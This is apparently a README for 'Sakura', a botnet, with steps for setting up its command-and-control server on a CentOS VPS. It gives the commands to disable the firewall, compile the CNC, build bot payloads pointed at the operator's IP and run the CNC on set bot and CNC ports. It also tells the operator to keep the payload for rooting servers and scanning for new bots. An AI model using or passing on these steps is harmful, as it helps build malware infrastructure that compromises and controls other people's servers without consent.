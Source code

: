 Everything You Need:

1. VPS CentOS 6.X. or CentOS 7
2. MobaXterm And PuTTY.
3. Another CentOS VPS In The Future For Scanning Bots.

Edit the Sakura_Bot.c file and find where it says "SERVERIP" and change it to your server IP.

Edit the Sakura_Login.txt file and replace where it says "USERNAME PASSWORD" to your user and pass.

Edit where it says "[SERVERIP]" below to your server IP.   *Make sure you also replace the brackets.

Drag all files into your server and run these commands...
--------------------------------------------------------------------
yum install python-paramiko nano screen gcc perl wget lbzip unzip -y

service httpd restart; service iptables stop

gcc Sakura_CNC.c -o Sakura -pthread

python Sakura_Build.py Sakura_Bot.c [SERVERIP]

screen ./Sakura 12345 1 54321
--------------------------------------------------------------------
Now press ctrl-A+D   *If screen doesnt work then type "pkill screen" then try to screen again.

Copy your payload and save it somewhere safe so you can root servers and scan bots in the future.

Bot port is 12345, CNC port is 54321 and the connection type is RAW.

Type "screen -x" to see Sakura activity.

Make sure to check the Sakura_Logs.log file that will appear in your server to see all user logs.
